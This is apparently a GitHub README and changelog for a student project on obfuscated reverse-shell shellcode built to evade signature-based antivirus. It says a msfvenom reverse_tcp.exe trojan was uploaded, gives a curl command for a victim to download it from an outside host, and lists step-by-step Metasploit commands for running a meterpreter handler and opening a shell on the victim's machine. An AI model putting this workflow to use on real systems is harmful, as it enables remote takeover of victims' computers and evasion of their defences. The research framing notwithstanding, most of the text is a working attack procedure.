 # reverse-shell
Obfuscated reverse-shell shellcode aimed to bypass signature-based antivirus




# Change Log:

  10/14/2024
    Russell:
      - created GitHub repo and uploaded the research paper as well as our proposal.
      - created and uploaded reverse_tcp.exe via msfvenom which connects to attacker's IP (Windows antivirus detects it immediately and does not allow execution)

      
     To download the trojan as a victim:
            $curl -O http://bigbadcyborg.com/reverse_tcp.exe

      Attacker must have Metasploit installed in order to listen for the victim's connection on a port.  
      
      To download the metasploit installer:
      $curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

      $chmod 755 msfinstall

      $./msfinstall

      $sudo msfconsole

      To run listener on attackers machine:
      $msfconsole
      $use exploit/multi/handler
      $set PAYLOAD windows/x64/meterpreter/reverse_tcp
      $set LHOST your_ip
      $set LPORT 4444
      $exploit

      Once the victim has executed the reverse shell, the attacker will see "Meterpreter session 1 opened." Lastly, the
      attacker enters the following command to enter the shell of the victim:
      $shell


      For a video explanation watch the following youtube video:
      https://www.youtube.com/watch?v=17JontiMrWQ
      

  

    
